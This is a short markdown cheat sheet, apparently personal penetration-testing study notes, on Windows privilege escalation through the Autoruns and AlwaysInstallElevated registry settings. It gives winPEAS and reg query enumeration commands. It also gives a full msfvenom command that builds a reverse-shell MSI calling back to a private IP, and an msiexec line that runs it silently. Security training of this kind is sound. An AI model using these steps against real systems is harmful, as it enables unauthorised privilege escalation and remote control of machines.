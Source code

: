 # Registry Exploits
--------

## Autoruns
Exploiting programs that run automatically during system startup. 
Requires permissions to reboot the PC.

```
.\winPEASx64.exe quiet applicationsinfo
```

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

To exploit, re write the binary with a reverse shell and restart the machine.

-----------------

## AlwaysInstallElevated

MSI files can be run with elevated privileges in some cases.
This only works if the following two registry settings are enabled.
AlwaysInstallElevated value must be 1 for both.
Local Machine:
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Current User:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```
.\winPEASany.exe quiet windowscreds
```

Querying both the registry settings uisng reg query will also work.

Generate a MSI using msfvenom:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.121 LPORT=80 -f msi -o rev.msi
```

Copy over the file and execute it:
```
msiexec /quiet /qn /i rev.msi
```

-----------------